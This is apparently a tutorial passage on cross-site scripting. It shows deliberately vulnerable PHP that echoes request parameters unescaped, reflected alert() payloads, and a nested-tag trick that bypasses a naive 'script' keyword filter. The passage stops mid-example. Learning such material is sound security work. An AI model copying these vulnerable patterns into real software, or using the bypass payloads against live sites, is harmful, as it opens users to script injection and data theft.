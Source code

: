 # XSS attack
Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites
## Reflected XSS attack
Reflected attacks are those where the injected script is reflected off the web server, such as in an error message, search result, or any other response that includes some or all of the input sent to the server as part of the request.

Suppose we have this kind of code
```php
<?php
echo "<H1>Welcome to the XSS world</H1>";
echo "<p>Current User: ". $_GET['user'] . "</p>";
?>
```
What if we make request with parameter `user` equal to `abdirakhman</p><script>alert("xss")</script><p>` 
Our website will look like this
```html
...
<h1>Welcome to the XSS world</h1>
<p>Current User: abdirakhman</p><script>alert("xss")</script><p>
...
```
And it will alert `xss` message. So we see here that we can make malicious request that will trigger to run malicious code.
## Basic pattern for reflected XSS
1. Visit the attacker website
2. Receive malicious link 
3. Click on that link
4. Get the secret data
5. Send it to attacker website

## Filtering out JS Keywords
If we have js keyword filter like this
```php
<?php
$name = $_GET['name'];
$name = preg_replace("/(script|object)/i", "", $name);
echo "<H1>Welcome to the XSS world</H1>";
echo "<p>Current User {$name} </p>";
?>
```
We can easilty bypass it by providing this kind of payload.
```
http://target.com/vuln.php?name=</p><scscriptript>alert("xss");</scscriptript><p>
```
## Injection inside Script Elements
Suppose we have this kind of website
```html
<head>
<title>Vulnerable</title>
<body>
    <?php
        $id = $_GET["id"];
        $passwd = $_GET["passwd"];
    >
    ...
    <script type="text/javascript" defer>
        let k = 10;
```
